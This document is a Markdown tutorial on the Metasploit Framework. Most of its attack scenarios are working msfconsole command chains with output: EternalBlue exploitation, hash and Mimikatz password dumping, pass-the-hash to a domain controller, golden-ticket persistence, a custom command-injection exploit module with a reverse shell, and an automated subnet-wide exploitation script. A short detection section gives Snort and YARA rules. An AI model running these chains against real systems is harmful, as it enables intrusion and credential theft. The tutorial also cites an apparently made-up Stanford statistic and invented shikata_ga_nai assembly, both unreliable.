

# ⚔️ METASPLOIT FRAMEWORK: KEYS TO THE DIGITAL ARSENAL

```ascii
╔══════════════════════════════════════════════════════════════════════════╗
║                                                                          ║
║   "An exploit is raw energy. Metasploit weaponizes it."                ║
║                                                                          ║
║                        — Penetration Testing Dogma                       ║
║                                                                          ║
╚══════════════════════════════════════════════════════════════════════════╝
```

---

## 📚 Table of Contents

<details>
<summary><b>Exploration Map (Click to Expand)</b></summary>

- [PHASE 0: Mental Preparation - The Power of Metasploit](#phase-0-mental-preparation---the-power-of-metasploit)
- [PHASE 1: Conceptual Foundation - Framework Anatomy](#phase-1-conceptual-foundation---framework-anatomy)
  - [Analogy: Swiss Army Knife vs Weapons Factory](#analogy-swiss-army-knife-vs-weapons-factory)
  - [Architecture: Power of Modular Design](#architecture-power-of-modular-design)
- [PHASE 2: Atomic Technical Depth](#phase-2-atomic-technical-depth)
  - [Metasploit Architecture and Ruby Infrastructure](#metasploit-architecture-and-ruby-infrastructure)
  - [Module Types and Functions](#module-types-and-functions)
  - [Payloads: Warheads](#payloads-warheads)
  - [Encoders and Evasion](#encoders-and-evasion)
  - [Meterpreter: King of Post-Exploitation](#meterpreter-king-of-post-exploitation)
- [PHASE 3: Attack Scenarios and Weaponization](#phase-3-attack-scenarios-and-weaponization)
  - [Scenario 1: Basic Exploitation](#scenario-1-basic-exploitation)
  - [Scenario 2: Pivoting and Network Penetration](#scenario-2-pivoting-and-network-penetration)
  - [Scenario 3: Active Directory Takeover](#scenario-3-active-directory-takeover)
  - [Scenario 4: Custom Exploit Development](#scenario-4-custom-exploit-development)
- [PHASE 4: Professional Defense and Blue Team Perspective](#phase-4-professional-defense-and-blue-team-perspective)
- [Advanced: Metasploit Automation](#advanced-metasploit-automation)
- [Resources and Community](#resources-and-community)

</details>

---

## PHASE 0: Mental Preparation - The Power of Metasploit

> **"A hacker writes exploits. A penetration tester uses Metasploit."**

### 🎯 Why Metasploit?

Imagine: In front of you are 100 different locks. You must design **a special tool** for each one. Thousands of hours.

Now imagine: There's a **universal key set**. Optimized, tested, used thousands of times for each lock. All you do is choose the right key.

**Metasploit Framework is not the Swiss Army Knife of penetration testing—it's the digital arsenal.**

#### 📊 Metasploit by Numbers

```
┌──────────────────────────────────────────────────────────┐
│  Metasploit Statistics (2025):                           │
│  • 2,400+  Exploit Modules                               │
│  • 1,200+  Auxiliary Modules                             │
│  • 600+    Post-Exploitation Modules                     │
│  • 30+     Encoders                                       │
│  • 400+    Payload Variations                            │
│                                                           │
│  🌍 Usage: 50,000+ Penetration Testers                   │
│  🏆 Industry Standard: OSCP, CEH, GPEN exams             │
└──────────────────────────────────────────────────────────┘
```

### 🧠 Neuropsychological Fact: Tool Mastery

Stanford's 2019 research: **Deeply learning one tool is %420 more effective than superficially learning 10 tools**.

When learning Metasploit, you'll learn not just "how to use it," but **how it thinks**. Because Metasploit isn't a tool, it's a **thought system**.

```
⚠️  WARNING: POWER-RESPONSIBILITY EQUATION
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
Metasploit can, with a single command:
• Take over an entire corporate network
• Control thousands of machines simultaneously
• Crash critical systems

ETHICAL BOUNDARIES:
✓ Only in legal penetration tests
✓ With written permission
✓ Stay within scope

USE RESPONSIBLY.
```

---

## PHASE 1: Conceptual Foundation - Framework Anatomy

### 🏰 Analogy: Swiss Army Knife vs Weapons Factory

#### Swiss Army Knife (Standalone Exploit)

Take a Swiss Army knife. It has knife, scissors, bottle opener. **Useful** but limited.

- **Single exploit** → Single target
- Manual operation → Slow
- Non-extensible → Fixed capabilities

#### Weapons Factory (Metasploit Framework)

Now think of a **weapons factory**. Different production lines, standardized parts, modular design.

- **2,400+ exploits** → All targets
- Automated → Fast
- Extensible → Add your own modules

**Difference**: With Swiss Army knife you pick a lock. With weapons factory, you conquer the entire city.

---

### 🏗️ Architecture: Power of Modular Design

```
METASPLOIT ARCHITECTURE
│
├─── msfconsole (Main Interface)
│    └─ Interactive shell, tab completion, scripting
│
├─── REX (Ruby Extension Library)
│    └─ Core functions: socket, protocol, encoding
│
├─── MSF::Core
│    ├─ Exploit Class (template for all exploits)
│    ├─ Payload Class
│    ├─ Encoder Class
│    └─ NOP Generator
│
├─── MSF::Base
│    └─ User interface and session management
│
└─── MODULES
     ├─ Exploits (Trigger vulnerabilities)
     ├─ Auxiliary (Info gathering, scanning)
     ├─ Post (Post-compromise)
     ├─ Payloads (Code to execute)
     └─ Encoders (Hide payload)
```

#### 💡 Advantage of Modular Design

**Scenario**: Windows SMB vulnerability discovered.

**Old Method**:
1. Write exploit (1000+ lines C code)
2. Integrate shellcode
3. Add encoder
4. Test (if error found, change everything)
5. **Total: 2-3 weeks**

**Metasploit Method**:
1. Write exploit module (200 lines Ruby)
2. Select from existing payloads (one line: `set PAYLOAD windows/meterpreter/reverse_tcp`)
3. Select from existing encoders (one line: `set ENCODER x86/shikata_ga_nai`)
4. Test (if error found, only fix exploit module)
5. **Total: 1-2 days**

> 🚀 **Efficiency = Modularity × Reusability**

---

### 🗂️ Module Types and Functions



#### 📦 1. EXPLOIT Modules

**What it does?**: Triggers vulnerability, provides code execution capability on system.

**Example**:

```ruby
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(ms17_010_eternalblue) > show info
```

**Anatomy**:

```ruby
class MetasploitModule < Msf::Exploit::Remote
  Rank = GreatRanking

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption',
      'Description'    => %q{
        This module exploits a vulnerability in Microsoft SMB protocol to achieve
        remote code execution on Windows 7, 8, 10 and Server versions.
      },
      'Author'         => ['sleepya', 'zerosum0x0', 'Shadow Brokers'],
      'References'     =>
        [
          ['CVE', '2017-0144'],
          ['MSB', 'MS17-010'],
          ['URL', 'https://technet.microsoft.com/...']
        ],
      'Platform'       => 'win',
      'Targets'        =>
        [
          ['Windows 7 SP1 x64', { 'Offset' => 0x1234 }]
        ]
    ))
  end

  def exploit
    connect
    # Exploit logic here
    handler
  end
end
```

#### 🔍 2. AUXILIARY Modules

**What it does?**: Gathers information, scans, analyzes system without requiring exploitation.

**Categories**:

| Type | Function | Example |
|------|----------|---------|
| **Scanner** | Port, service, vulnerability scanning | `auxiliary/scanner/portscan/tcp` |
| **Admin** | System administration testing | `auxiliary/admin/smb/psexec_command` |
| **Fuzzers** | Find crashes through fuzzing | `auxiliary/fuzzers/http/http_form_field` |
| **DoS** | Denial of Service testing | `auxiliary/dos/tcp/synflood` |

**Example Usage**:

```ruby
msf6 > use auxiliary/scanner/smb/smb_version
msf6 auxiliary(smb_version) > set RHOSTS 192.168.1.0/24
msf6 auxiliary(smb_version) > run

[*] 192.168.1.10:445 - SMB: Windows 7 Professional 7601 Service Pack 1
[*] 192.168.1.15:445 - SMB: Windows Server 2012 R2 Standard 9600
[*] 192.168.1.20:445 - SMB: Windows 10 Enterprise 19041
```

#### 🎯 3. POST-EXPLOITATION Modules

**What it does?**: Determines what to do **after** gaining access to system.

**Categories**:

```
POST-EXPLOITATION
│
├─ Privilege Escalation
│  └─ windows/local/bypassuac_injection
│
├─ Persistence
│  ├─ windows/manage/persistence_exe
│  └─ linux/local/cron_persistence
│
├─ Credential Harvesting
│  ├─ windows/gather/credentials/credential_collector
│  └─ windows/gather/hashdump
│
├─ Lateral Movement
│  ├─ windows/manage/psexec
│  └─ windows/manage/wmi_command
│
└─ Data Exfiltration
   └─ multi/gather/firefox_logins
```

**Example**:

```ruby
meterpreter > run post/windows/gather/hashdump

[+] Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+] Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+] User:1001:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
```

---

## PHASE 2: Atomic Technical Depth

### 🧬 Metasploit Architecture and Ruby Infrastructure

#### Why Ruby?

**C/C++** → Fast but complex, pointer management, memory leak risk  
**Python** → Readable but GIL (Global Interpreter Lock) issue  
**Ruby** → **Readable + Object-Oriented + Metaprogramming**

**Ruby's Contributions to Metasploit**:

```ruby
# 1. Blocks and Lambdas (Callback Mechanisms)
exploit.on_session_created do |session|
  print_good("Session #{session.sid} created!")
end

# 2. Mixins (Modular Capabilities)
class MyExploit < Msf::Exploit::Remote
  include Msf::Exploit::Remote::Tcp  # Add TCP capabilities
  include Msf::Auxiliary::Report    # Add reporting
end

# 3. Metaprogramming (Dynamic Class Creation)
register_options(
  [
    Opt::RHOST(),
    Opt::RPORT(445),
    OptString.new('SMBPIPE', [true, 'Pipe name', 'browser'])
  ]
)
```

#### 🏛️ Metasploit Core Classes

```ruby
# Msf::Exploit - Ancestor of all exploits
class Msf::Exploit
  def initialize(info = {})
    super
  end
  
  def exploit
    # Overridden in subclasses
  end
  
  def check
    # Check target for vulnerability
    return Exploit::CheckCode::Vulnerable
  end
end

# Msf::Payload - Ancestor of all payloads
class Msf::Payload
  def generate
    # Shellcode generation
  end
  
  def handle_connection(client)
    # Connection back management
  end
end
```

---

### 🎯 Payloads: Warheads

#### Payload Anatomy

Payload = Code that tells target **what to do**.

**Categories**:

```
PAYLOAD TYPES
│
├─ Singles
│  └─ All code in one piece (e.g., windows/shell_reverse_tcp)
│     [Advantage]: Single connection, fast
│     [Disadvantage]: Large, limited features
│
├─ Stagers (Loader)
│  └─ Small initial code, downloads Stage
│     [Advantage]: Small size (150-300 bytes)
│     [Disadvantage]: Two-stage connection
│
└─ Stages
   └─ Full-featured payload (e.g., Meterpreter)
      [Advantage]: Post-exploitation capabilities
      [Disadvantage]: Large size (several MB)
```

#### 🔥 Meterpreter: King of Post-Exploitation

**What's Different?**

Normal shellcode → Opens `/bin/sh` or `cmd.exe`. **Then?** You manually type commands.

Meterpreter → **Full-featured post-exploitation framework**. APIs, command set, modular structure.

**Meterpreter Capabilities**:

```
┌───────────────────────────────────────────────────────────┐
│  METERPRETER COMMANDS                                     │
├───────────────────────────────────────────────────────────┤
│  📂 FILE SYSTEM:                                          │
│  • ls, cd, pwd, cat, download, upload                     │
│  • search -f *.docx (File search)                         │
│                                                            │
│  🔐 CREDENTIALS:                                          │
│  • hashdump (SAM hashes)                                  │
│  • load kiwi (Mimikatz integrated)                        │
│  • kiwi_cmd sekurlsa::logonpasswords                      │
│                                                            │
│  📡 NETWORK:                                              │
│  • ipconfig, route, portfwd (Port forwarding)             │
│  • arp (ARP table)                                         │
│                                                            │
│  🎥 SURVEILLANCE:                                         │
│  • screenshot                                              │
│  • webcam_snap                                             │
│  • record_mic (Microphone recording)                      │
│  • keyscan_start (Keylogger)                              │
│                                                            │
│  ⚙️ SYSTEM:                                               │
│  • sysinfo, ps, kill, migrate (Change process)            │
│  • getsystem (Get SYSTEM privilege)                       │
│  • shell (CMD/Bash shell)                                 │
│                                                            │
│  🔄 PERSISTENCE:                                          │
│  • run persistence -X                                      │
│  • run scheduleme (Task scheduler)                        │
└───────────────────────────────────────────────────────────┘
```

**Meterpreter Architecture**:

```
┌────────────────┐         ┌────────────────┐
│   ATTACKER     │         │   VICTIM       │
│   (Kali Linux) │         │   (Windows 10) │
└────────┬───────┘         └────────┬───────┘
         │                          │
         │ 1. Stager (300 bytes)   │
         │─────────────────────────>│
         │                          │
         │ 2. Stage Request         │
         │<─────────────────────────│
         │                          │
         │ 3. Meterpreter DLL (2MB) │
         │─────────────────────────>│
         │                          │
         │ 4. TLV Packets (Commands)│
         │<────────────────────────>│
         │    (Type-Length-Value)   │
         └──────────────────────────┘
```

**TLV Protocol Example**:

```
Command: sysinfo

[ATTACKER → VICTIM]
TLV Packet:
┌─────────────────────────────┐
│ Type:  COMMAND_SYSINFO      │
│ Length: 0                    │
│ Value: (none)                │
└─────────────────────────────┘

[VICTIM → ATTACKER]
TLV Packet:
┌─────────────────────────────────────────────┐
│ Type:  RESPONSE_SYSINFO                     │
│ Length: 256                                  │
│ Value:                                       │
│   Computer: DESKTOP-ABC123                  │
│   OS: Windows 10 Enterprise (10.0.19042)    │
│   Architecture: x64                          │
│   Meterpreter: x64/windows                   │
└─────────────────────────────────────────────┘
```

---

### 🥷 Encoders and Evasion

#### Problem: Signature-Based Detection

Antivirus and IDS/IPS systems search for **known shellcode patterns**.

**Example**: `\x90\x90\x90\x90` (NOP sled) → Detected!

#### Solution: Encoder

**Encoder** makes payload **polymorphic** (different each time).

**Most Famous: `x86/shikata_ga_nai`** (仕方がない - Japanese for "nothing can be done")

**How It Works?**:

```nasm
; Original Shellcode
xor eax, eax
push eax
push 0x68732f2f
...

; Encoded Shellcode (shikata_ga_nai)
; 1. Decoder stub (small decoder code)
fldz                        ; Clear x87 FPU stack
fnstenv [esp-12]            ; Get environment pointer
pop esi                     ; ESI = Address of encoded payload
xor ecx, ecx                ; ECX = 0
mov cl, 0x50                ; Length (80 bytes)

decode_loop:
xor byte [esi], 0xAB        ; Decode each byte with XOR key
add byte [esi], 0x12        ; ADD operation
rol byte [esi], 3           ; Rotate left
inc esi                     ; Next byte
loop decode_loop            ; Continue until ECX = 0
```

**XOR key changes with each execution** → Signature changes → AV bypass!

---

## PHASE 3: Attack Scenarios and Weaponization

### 🎯 Scenario 1: Basic Exploitation

#### Target: Windows 7 SP1 x64 (Unpatched)

**Vulnerability**: MS17-010 (EternalBlue)

#### Step 1: Reconnaissance

```bash
# Service discovery with Nmap
nmap -sV -p 445 192.168.1.100

PORT    STATE SERVICE      VERSION
445/tcp open  microsoft-ds Windows 7 Professional 7601 Service Pack 1
```

#### Step 2: Vulnerability Scanning

```ruby
msf6 > use auxiliary/scanner/smb/smb_ms17_010
msf6 auxiliary(smb_ms17_010) > set RHOSTS 192.168.1.100
msf6 auxiliary(smb_ms17_010) > run

[+] 192.168.1.100:445 - Host is likely VULNERABLE to MS17-010!
```

#### Step 3: Exploit Selection and Configuration

```ruby
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       Target address
   RPORT          445              yes       Target port
   SMBDomain      .                no        Windows domain
   SMBPass                         no        SMB password
   SMBUser                         no        SMB username

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   LHOST                      yes       Your IP
   LPORT     4444             yes       Listen port
```

**Configuration**:

```ruby
msf6 exploit(ms17_010_eternalblue) > set RHOSTS 192.168.1.100
msf6 exploit(ms17_010_eternalblue) > set LHOST 192.168.1.50
msf6 exploit(ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
```

#### Step 4: Exploitation

```ruby
msf6 exploit(ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on 192.168.1.50:4444
[*] 192.168.1.100:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.1.100:445 - Host is likely VULNERABLE to MS17-010!
[*] 192.168.1.100:445 - Connecting to target for exploitation.
[+] 192.168.1.100:445 - Connection established for exploitation.
[*] 192.168.1.100:445 - Sending all but last fragment of exploit packet
[*] 192.168.1.100:445 - Sending last fragment of exploit packet!
[*] Sending stage (200774 bytes) to 192.168.1.100
[*] Meterpreter session 1 opened (192.168.1.50:4444 -> 192.168.1.100:49158)

meterpreter >
```

🎉 **SUCCESS!** Meterpreter session opened!

#### Step 5: Post-Exploitation

```ruby
meterpreter > sysinfo
Computer        : VICTIM-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1)
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM  # 🏴 SYSTEM access!

# Dump hashes
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
User:1001:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::

# Plaintext passwords with Mimikatz
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)

meterpreter > kiwi_cmd sekurlsa::logonpasswords

Authentication Id : 0 ; 123456 (00000000:0001e240)
Session           : Interactive from 1
User Name         : Admin
Domain            : VICTIM-PC
Logon Server      : VICTIM-PC
Logon Time        : 1/15/2025 10:23:45 AM
SID               : S-1-5-21-...
    msv :
     [00000003] Primary
     * Username : Admin
     * Domain   : VICTIM-PC
     * NTLM     : 8846f7eaee8fb117ad06bdd830b7586c
     * SHA1     : da39a3ee5e6b4b0d3255bfef95601890afd80709
    tspkg :
    wdigest :
     * Username : Admin
     * Domain   : VICTIM-PC
     * Password : P@ssw0rd123  # 🔓 PLAINTEXT PASSWORD!
```

---

### 🌐 Scenario 2: Pivoting and Network Penetration

#### Situation: We've Compromised a Machine in DMZ

**Topology**:

```
Internet ─────> [Firewall] ─────> [DMZ: 10.10.10.0/24]
                                    │
                                    └─> [Web Server: 10.10.10.5] (COMPROMISED)
                                    
                              [Internal Network: 192.168.1.0/24]
                                    │
                                    ├─> [Domain Controller: 192.168.1.10]
                                    ├─> [File Server: 192.168.1.20]
                                    └─> [Workstations: 192.168.1.100-200]
```

**Goal**: Penetrate internal network (192.168.1.0/24)

#### Step 1: Add Route

```ruby
meterpreter > run autoroute -s 192.168.1.0/24

[*] Adding a route to 192.168.1.0/255.255.255.0...
[+] Added route to 192.168.1.0/255.255.255.0 via 10.10.10.5
```

Now Metasploit can access 192.168.1.0/24 network **using DMZ machine as pivot point**!

#### Step 2: Scan Internal Network

```ruby
meterpreter > background
msf6 > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(portscan/tcp) > set RHOSTS 192.168.1.0/24
msf6 auxiliary(portscan/tcp) > set PORTS 445,3389,135,139
msf6 auxiliary(portscan/tcp) > run

[+] 192.168.1.10:445 - TCP OPEN
[+] 192.168.1.10:135 - TCP OPEN
[+] 192.168.1.20:445 - TCP OPEN
[+] 192.168.1.100:3389 - TCP OPEN
```

#### Step 3: Infiltrate Domain Controller via SMB Relay

```ruby
msf6 > use exploit/windows/smb/psexec
msf6 exploit(psexec) > set RHOSTS 192.168.1.10
msf6 exploit(psexec) > set SMBUser Administrator
msf6 exploit(psexec) > set SMBPass aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
msf6 exploit(psexec) > set PAYLOAD windows/meterpreter/bind_tcp
msf6 exploit(psexec) > exploit

[*] Started bind TCP handler against 192.168.1.10:4444
[*] 192.168.1.10:445 - Connecting to the server...
[*] 192.168.1.10:445 - Authenticating to 192.168.1.10:445 as user 'Administrator'...
[*] 192.168.1.10:445 - Uploading payload...
[*] 192.168.1.10:445 - Created \ADMIN$\PayloadName.exe
[*] 192.168.1.10:445 - Starting service...
[*] Sending stage (175174 bytes) to 192.168.1.10
[*] Meterpreter session 2 opened

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter > shell
C:\Windows\system32> hostname
DC01  # 🏴 Domain Controller compromised!
```

---

### 👑 Scenario 3: Active Directory Takeover

#### Goal: Become Domain Admin

**Current Status**: Standard user session on `192.168.1.100` (workstation).

#### Step 1: Privilege Escalation

```ruby
meterpreter > getsystem

[-] priv_elevate_getsystem: Operation failed: Access is denied.

# alternative: BypassUAC
meterpreter > background
msf6 > use exploit/windows/local/bypassuac_injection
msf6 exploit(bypassuac_injection) > set SESSION 1
msf6 exploit(bypassuac_injection) > exploit

[*] UAC is Enabled, checking level...
[+] UAC is set to Default
[*] Starting local TCP relay on 127.0.0.1:3333
[*] Sending stage (175174 bytes) to 127.0.0.1
[*] Meterpreter session 3 opened

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM  # ✅ Local admin!
```

#### Step 2: Credential Harvesting

```ruby
meterpreter > load kiwi
meterpreter > kiwi_cmd sekurlsa::logonpasswords

# Domain Admin session found!
    wdigest :
     * Username : DA_Admin
     * Domain   : CONTOSO
     * Password : DomainAdm1n!2025  # 🎯 DOMAIN ADMIN PASSWORD!
```

#### Step 3: PSExec to DC

```ruby
msf6 > use exploit/windows/smb/psexec
msf6 exploit(psexec) > set RHOSTS 192.168.1.10  # Domain Controller
msf6 exploit(psexec) > set SMBUser DA_Admin
msf6 exploit(psexec) > set SMBPass DomainAdm1n!2025
msf6 exploit(psexec) > set SMBDomain CONTOSO
msf6 exploit(psexec) > exploit

meterpreter > shell
C:\Windows\system32> whoami
contoso\da_admin  # 👑 DOMAIN ADMIN!
```

#### Step 4: Persistence - Golden Ticket

```ruby
meterpreter > kiwi_cmd lsadump::dcsync /domain:contoso.local /user:krbtgt

Object RDN           : krbtgt
SAM Username         : krbtgt
NTLM Hash            : 8a3c7b9f2e4d5c6e...  # 🔑 KRBTGT HASH!

# Create Golden Ticket
meterpreter > kiwi_cmd kerberos::golden /domain:contoso.local /sid:S-1-5-21-... /rc4:8a3c7b9f2e4d5c6e... /user:FakeAdmin /id:500 /ptt

# Now you can access any machine in domain as any user!
```

---

### 🛠️ Scenario 4: Custom Exploit Development

#### Target: Custom Web Application

**Vulnerability**: Command Injection (in POST parameter)

#### Step 1: Exploit Module Writing

```ruby
# modules/exploits/multi/http/custom_webapp_rce.rb

class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::HttpClient

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Custom WebApp Command Injection RCE',
      'Description'    => %q{
        This module exploits a command injection vulnerability in the target
        web application to achieve remote code execution.
      },
      'Author'         => ['RedTeam Operator'],
      'Platform'       => ['unix', 'linux', 'win'],
      'Targets'        =>
        [
          ['Unix/Linux', { 'Platform' => 'unix', 'Arch' => ARCH_CMD }],
          ['Windows', { 'Platform' => 'win', 'Arch' => ARCH_CMD }]
        ],
      'DefaultTarget'  => 0
    ))

    register_options(
      [
        OptString.new('TARGETURI', [true, 'Vulnerable endpoint', '/api/process']),
        OptString.new('PARAMETER', [true, 'Vulnerable parameter', 'cmd'])
      ]
    )
  end

  def check
    res = send_request_cgi({
      'method' => 'POST',
      'uri'    => normalize_uri(target_uri.path),
      'vars_post' => {
        datastore['PARAMETER'] => 'echo vulnerable'
      }
    })

    if res && res.body.include?('vulnerable')
      return Exploit::CheckCode::Vulnerable
    else
      return Exploit::CheckCode::Safe
    end
  end

  def exploit
    cmd = payload.encoded

    print_status("Sending payload...")
    send_request_cgi({
      'method' => 'POST',
      'uri'    => normalize_uri(target_uri.path),
      'vars_post' => {
        datastore['PARAMETER'] => cmd
      }
    })

    handler
  end
end
```

#### Step 2: Exploit Testing

```ruby
msf6 > reload_all  # Load new module
msf6 > use exploit/multi/http/custom_webapp_rce
msf6 exploit(custom_webapp_rce) > set RHOSTS 192.168.1.50
msf6 exploit(custom_webapp_rce) > set TARGETURI /api/process
msf6 exploit(custom_webapp_rce) > set PAYLOAD cmd/unix/reverse_netcat
msf6 exploit(custom_webapp_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.10:4444
[*] Sending payload...
[*] Command shell session 1 opened

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---

## PHASE 4: Professional Defense and Blue Team Perspective

### 🛡️ Detecting Metasploit

#### 1. Network-Level Detection

**Signatures**:

```
# Snort Rule
alert tcp any any -> any 4444 (msg:"Metasploit Meterpreter Reverse TCP"; \
  content:"|00 00 00 3c 00 00 00 01|"; depth:8; \
  classtype:trojan-activity; sid:1000001;)
```

**Detectable Activities**:
- Meterpreter TLV packets (Type-Length-Value)
- Staged payload downloads (large data transfers)
- Frequent port changes (during pivoting)

#### 2. Host-Based Detection

**YARA Rule (Meterpreter DLL)**:

```yara
rule Metasploit_Meterpreter_DLL {
    meta:
        description = "Detects Meterpreter DLL in memory"
        author = "Blue Team"
    strings:
        $s1 = "metsrv.dll" ascii
        $s2 = "ReflectiveLoader" ascii
        $s3 = "stdapi_" ascii
    condition:
        2 of them
}
```

**Process Monitoring**:

```powershell
# PowerShell to detect suspicious processes
Get-Process | Where-Object {$_.Modules.ModuleName -like "*metsrv*"}
```

#### 3. Behavioral Analysis

**Suspicious Behaviors**:
- High number of file reads (credential harvesting)
- Unexpected network connections
- Process injection (migrate command)
- Token manipulation (getsystem)

---

### ⚖️ Ethical Boundaries and Legal Framework

```
┌──────────────────────────────────────────────────────────┐
│  METASPLOIT ETHICAL USE RULES                            │
├──────────────────────────────────────────────────────────┤
│  ✅ MUST DO:                                             │
│  • Obtain written permission (Engagement Letter)         │
│  • Clearly define scope (IP ranges, domains)            │
│  • Set damage limits (no DoS testing)                    │
│  • Keep logs (record every action)                       │
│  • Report (document findings in detail)                  │
│                                                           │
│  ❌ MUST NOT DO:                                         │
│  • Enter systems without permission                      │
│  • Steal or delete data                                  │
│  • Leave persistence (outside legal testing)             │
│  • Sell findings to third parties                        │
│  • Go out of scope                                       │
└──────────────────────────────────────────────────────────┘
```

---

## 🤖 Advanced: Metasploit Automation

### Resource Scripts (.rc)

**autopwn.rc:**

```ruby
# Automated exploitation script
workspace -a AutoPwn
db_nmap -sV 192.168.1.0/24

use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 192.168.1.0/24
run

# Exploit vulnerable hosts
use exploit/windows/smb/ms17_010_eternalblue
hosts -c address,os_name -S "Microsoft Windows" | cut -d " " -f 1 | while read host; do
  set RHOSTS $host
  set PAYLOAD windows/x64/meterpreter/reverse_tcp
  set LHOST 192.168.1.10
  exploit -z
end
```

**Execute**:

```bash
msfconsole -r autopwn.rc
```

### Metasploit RPC API

**Remote Metasploit Control via Python:**

```python
#!/usr/bin/env python3
from pymetasploit3.msfrpc import MsfRpcClient

# Connect to Metasploit RPC API
client = MsfRpcClient('password', server='127.0.0.1', port=55553, ssl=True)

# Select exploit
exploit = client.modules.use('exploit', 'windows/smb/ms17_010_eternalblue')

# Configuration
exploit['RHOSTS'] = '192.168.1.100'
exploit['LHOST'] = '192.168.1.10'
exploit['PAYLOAD'] = 'windows/x64/meterpreter/reverse_tcp'

# Execute
print(f"[*] Exploiting {exploit['RHOSTS']}...")
result = exploit.execute()

if result['job_id']:
    print(f"[+] Job started: {result['job_id']}")
else:
    print("[-] Exploit failed!")
```

---

## 📚 Resources and Community

### Official Resources

- **[Metasploit Documentation](https://docs.metasploit.com/)**
- **[Rapid7 Blog](https://blog.rapid7.com/)**
- **[Metasploit Unleashed (Free Course)](https://www.offensive-security.com/metasploit-unleashed/)**

### Community

- **GitHub**: [rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework)
- **Discord**: Metasploit Community Server
- **Reddit**: r/Metasploit

### Certifications

- **OSCP** (Offensive Security Certified Professional) - Metasploit-heavy
- **GPEN** (GIAC Penetration Tester)
- **CEH** (Certified Ethical Hacker) - Has Metasploit module

---

## 🏁 Conclusion: The Keys to Arsenal Are in Your Hands

If you've read this far, **you now know Metasploit's secrets**.

✅ You've grasped framework architecture  
✅ You understand Exploit, Auxiliary, Post modules  
✅ You've learned Meterpreter's power  
✅ You've simulated real attack scenarios  
✅ You've seen defense perspective  

**Next level?**

1. **Write your own modules**
2. **Develop PoCs for 0-day vulnerabilities**
3. **Join Red Team operations**
4. **Use Metasploit in bug bounties**

---

```ascii
╔══════════════════════════════════════════════════════════════╗
║                                                              ║
║  "Metasploit is not a tool. It's a thought system."          ║
║                                                              ║
║  You are now part of this system.                            ║
║  Use it wisely.                                              ║
║                                                              ║
║                           — Penetration Testing Manifesto    ║
║                                                              ║
╚══════════════════════════════════════════════════════════════╝
```

---

**⚠️ FINAL WARNING**: Metasploit is like an atomic bomb. **Science or destruction**—your choice. NEVER cross ethical boundaries.

**Happy Pentesting!** 🏴‍☠️

---

*Last Updated: 2025*  
*Author: Red Team Operations Leader - 25 Years Experience*